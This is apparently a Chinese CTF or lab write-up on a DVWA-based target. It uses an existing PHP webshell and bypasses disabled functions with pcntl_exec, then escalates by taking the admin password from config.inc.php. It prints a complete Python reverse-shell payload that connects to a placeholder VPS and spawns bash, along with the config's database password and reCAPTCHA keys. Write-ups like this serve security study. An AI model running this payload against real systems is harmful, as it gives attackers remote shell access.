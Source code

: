 简单审计一下，可以执行命令但大部分被ban了。

登录后，存在一句话木马，密码为cmd，ban了很多函数，经过测试发现可以用pcntl\_exec反弹shell：

```
//POST传参，反弹shell
 1=pcntl_exec("/usr/bin/python",array('-c','import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM,socket.SOL_TCP);s.connect(("VPS地址",port端口));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'));
最终需要提权，尝试suid未果，发现存在配置文件config.inc.php，其密码是admin用户密码
```

![image-20240721022721413](https://img2023.cnblogs.com/blog/1049983/202407/1049983-20240721033939448-1597752917.png)

```

```

```
<!--?php

 # If you are having problems connecting to the MySQL database and all of the variables below are correct
 # try changing the 'db_server' variable from localhost to 127.0.0.1. Fixes a problem due to sockets.
 #   Thanks to @digininja for the fix.

 # Database management system to use
 $DBMS = 'MySQL';
 #$DBMS = 'PGSQL'; // Currently disabled

 # Database variables
 #   WARNING: The database specified under db_database WILL BE ENTIRELY DELETED during setup.
 #   Please use a database dedicated to DVWA.
 #
 # If you are using MariaDB then you cannot use root, you must use create a dedicated DVWA user.
 #   See README.md for more information on this.
 $_DVWA = array();
 $_DVWA[ 'db_server' ]   = '127.0.0.1';
 $_DVWA[ 'db_database' ] = 'dvwa';
 $_DVWA[ 'db_user' ]     = 'root';
 $_DVWA[ 'db_password' ] = 'b90e0086d8b1165403de6974c4167165';

 # Only used with PostgreSQL/PGSQL database selection.
 $_DVWA[ 'db_port '] = '5432';

 # ReCAPTCHA settings
 #   Used for the 'Insecure CAPTCHA' module
 #   You'll need to generate your own keys at: https://www.google.com/recaptcha/admin
 $_DVWA[ 'recaptcha_public_key' ]  = '6LdK7xITAAzzAAJQTfL7fu6I-0aPl8KHHieAT_yJg';
 $_DVWA[ 'recaptcha_private_key' ] = '6LdK7xITAzzAAL_uw9YXVUOPoIHPZLfw2K1n5NVQ';

 # Default security level
 #   Default value for the secuirty level with each session.
 #   The default is 'impossible'. You may wish to set this to either 'low', 'medium', 'high' or impossible'.
 $_DVWA[ 'default_security_level' ] = 'impossible';

 # ...
